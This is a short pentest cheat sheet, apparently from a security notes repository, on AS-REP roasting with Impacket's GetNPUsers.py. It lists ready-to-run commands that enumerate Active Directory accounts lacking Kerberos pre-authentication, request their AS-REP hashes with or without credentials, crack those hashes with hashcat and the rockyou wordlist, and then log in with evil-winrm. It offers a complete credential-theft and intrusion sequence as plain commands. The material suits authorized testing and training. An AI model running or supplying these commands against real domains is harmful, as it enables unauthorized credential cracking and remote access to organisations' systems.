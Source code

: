 ### Impacket - GetNPUsers.py (AS-REP Roasting)

**Tool** - [GetUsers.py]()
**Purpose** - Extract AS-REP hashes for user accounts with ``Do not requrie kerberos pre-authentication`` enabled

---

### Basic Syntax

```bash
GetNPUsers.py [domain]/[username]:[password] -dc-ip <Domain Controller IP> [options]
```

---

### Examples

#### Query All Vulnerable Users (No Credentials)

```bash
impacket-GetNPUsers infosecwarrior.local/ -dc-ip <IP>
```

#### Request AS-REP Hashes

```bash
impacket-GetNPUsers infosecwarrior.local/ -dc-ip <IP> -request
```

#### Save Hashes in Hashcat Format

```bash
impacket-GetNPUsers infosecwarrior.local/ -dc-ip <IP> -request -format hashcat
```

#### Use a User List File

```bash
impacket-GetNPUsers infosecwarrior.local/ -dc-ip <IP> -userfile UserPrincipalName-list.txt
```

#### Anonymous Query (No Password)

```bash
impacket-GetNPUsers infosecwarrior.local/ -dc-ip <IP> -userfile UserPrincipalName-list.txt -no-pass
```

#### Authenticated Query 

```bash
impacket-GetNPUsers infosecwarrior.local/administrator:Password123 -dc-ip <IP> -userfile UserPrincipalName-list.txt
```

#### Save to Output File

```bash
impacket-GetNPUsers infosecwarrior.local/ -dc-ip <IP> -request -outputfile as-rep-hash.txt
```

---

### Crack with Hashcat

#### Crack Hash Mode for AS-REP (kerberos 5)

```bash
hashcat -h | grep -i kerberos
```

should return:

```bash
18200 | Kerberos 5, etype 23, AS-REP | Network Protocol
```

#### Crack AS-REP Hash

```bash
hashcat -a 0 -m 18200 as-rep-hash.txt /opt/rockyou.txt --show
```

---

### Post-Exploitaion Access (if Password is Recovered)

```bash
evil-winrm -i <IP> -u <username> -p <password>
```
